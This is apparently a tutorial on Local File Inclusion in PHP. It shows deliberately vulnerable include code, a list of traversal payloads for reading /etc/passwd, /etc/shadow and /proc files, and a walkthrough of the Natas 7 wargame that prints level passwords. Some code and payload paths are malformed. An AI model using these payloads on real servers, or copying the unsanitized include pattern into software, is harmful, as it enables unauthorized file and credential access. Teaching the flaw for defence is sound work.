

# Local File Inclusion

### OWASP :
 Local File Inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

### Local file inclusion in PHP:

Consider an example as follows where we can apply this attack.
http://victim_site/abc.php?file=userinput.txt
The value of “file” parameter is taken into the following PHP code, and the file is included:
```php
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("pages/$file");
   }
?>
```
An attacker may give malicious input for the "file" parameter which may give unauthorized files in that directory, he can also change the directories by using characters like "../".He can access the user credentials by giving input as "../../../../etc/passwd".In some cases where the file extension is added by default, we can avoid it by adding null byte terminator " %00".Any character after this special character will be ignored.

Suppose that the input given is taken by the following code and the default extension being set is “.php”.
```php
<?php
“include/”.include($_GET[‘testfile’].”.php”);
?>
```

by giving file=../../../../etc/passwd%00 we can access the file by passing the ".php" extension.

## Impact
A successful LFI may result in compromise of the system ,data leakage etc.The attacker can read,write,download files and can also run arbitary codes with privileges of web server

## Explore it yourself
Make a php file with the code given above and explore different possibilities of the vulnerability.
### Somepayloads :
- ../../../../etc/passwd/etc/issue
- ../../../../etc/passwd
- ../../../../etc/passwd/etc/shadow
- ../../../../etc/passwd/etc/group
- ../../../../etc/passwd/etc/hosts
- ../../../../etc/passwd/etc/motd
- ../../../../etc/passwd/etc/mysql/my.cnf
- ../../../../proc/self/environ
- ../../../../proc/version
- ../../../../proc/cmdline
- ../../../../proc/sched_debug
- ../../../../proc/mounts
- ../../../../proc/net/arp
- ../../../../proc/net/route
- ../../../../proc/net/tcp
- ../../../../proc/net/udp

# Let's try a challenge  
 NATAS 7 :
  - USERNAME : natas7
  - PASSWORD : 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
  

The site is very simple only with two buttons, but once when you click on Home or About the URL changes as follows :

  </br>
  
 
 It looks like the PHP file is including the file given as page, when we check the source code we get the hint as  
 hint: password for webuser natas8 is in /etc/natas_webpass/</br></br>
  
  
  So, let's try to include that file in the URL 
 URL : index.php?page=/etc/natas_webpass/natas8
On including this file we get the password for the next level on the screen </br></br>
password : DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe</br></br>

</br></br>
This is a basic example of Local file inclusion vulnerability.


